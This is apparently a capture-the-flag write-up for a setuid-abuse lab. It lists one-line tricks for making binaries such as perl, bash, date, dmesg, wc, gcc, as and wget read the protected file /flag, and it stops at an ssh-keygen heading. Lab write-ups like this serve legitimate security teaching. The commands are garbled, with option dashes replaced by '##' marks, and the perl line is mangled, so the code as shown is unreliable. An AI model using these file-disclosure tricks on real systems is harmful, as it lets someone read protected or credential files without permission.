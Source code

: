 ```
```
## mv
```
// this is probably the best challenge in the course
// files in home folder are preserved, therefore
// just mv the flag to home folder and switch to the setuid cat challenge
```
## perl 
```
perl ##ne 'print if open my $f, "/flag"; while(<$f>){print} exit'
```
## python
```
vim open.py
with open("/flag") as f:
	c = f.read()
print(c)
```
## ruby 
```
vim open.rb
puts File.read("/flag")
```
## bash
```
bash ##p ##c 'cat /flag'
```
## date
```
date ##f /flag
```
## dmesg
```
dmesg ####file /flag
```
## wc
```
wc ##c ####files0##from=/flag
```
## gcc
```
gcc ##E ##P ##xc /dev/null ##include /flag
```
## as
```
echo '.incbin "/flag"' > /tmp/x.s
as /tmp/x.s ##o /tmp/x.o
objdump ##s /tmp/x.o
```
## wget
```
wget ####spider ##d ####base=http://x/ ##i /flag
```
## ssh-keygen